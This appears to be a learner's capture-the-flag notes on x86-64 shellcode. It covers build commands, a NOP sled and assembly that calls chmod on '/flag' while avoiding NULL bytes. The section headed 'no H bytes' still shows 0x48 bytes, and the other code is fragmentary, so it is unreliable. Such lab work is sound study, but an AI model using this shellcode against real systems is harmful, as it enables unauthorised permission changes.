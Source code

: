 
Compile allowing write:
`gcc -Wl, -N --static nostdlib -o test test.s`
`objcopy --dump-section .text=shellcode-raw shellcode-elf`


## 1 - chmod syscall

```
.global _start_
_start:
.intel_syntax noprefix
```

## 2 - Nop sled 

Challenge will randomly skip up to 0x800 bytes from shellcode. Must pad with `nop` before executing shellcode

We must use a loop to insert a certain number of no operation bytes:

```
    .rept 0x800        # Repeat the following instruction 0x800 times
    nop                # NOP instruction
    .endr              # End of repetition
	-----
	Rest of shellcode
```


## 3 - Input filter: no 0x00 NULL bytes

```
.global _start_
_start:
.intel_syntax noprefix
        xor rbx, rbx
        mov ebx, 0x67616c66
        shl rbx, 8
        mov bl, 0x2f
        push rbx
        mov rdi, rsp
        inc rsi
        inc rsi
        inc rsi
        inc rsi
        mov al, 0x5a
        syscall
```

## 4 - no H (0x48) bytes!!!

0000000000401000 <_start>:
  401000:       bb 66 6c 61 67          mov    ebx,0x67616c66
  401005:       48 c1 e3 08             shl    rbx,0x8
  401009:       b3 2f                   mov    bl,0x2f
  40100b:       53                      push   rbx
  40100c:       48 89 e7                mov    rdi,rsp
  40100f:       48 ff c6                inc    rsi
  401012:       48 ff c6                inc    rsi
  401015:       48 ff c6                inc    rsi
  401018:       48 ff c6                inc    rsi
  40101b:       b0 5a                   mov    al,0x5a
  40101d:       0f 05                   syscall
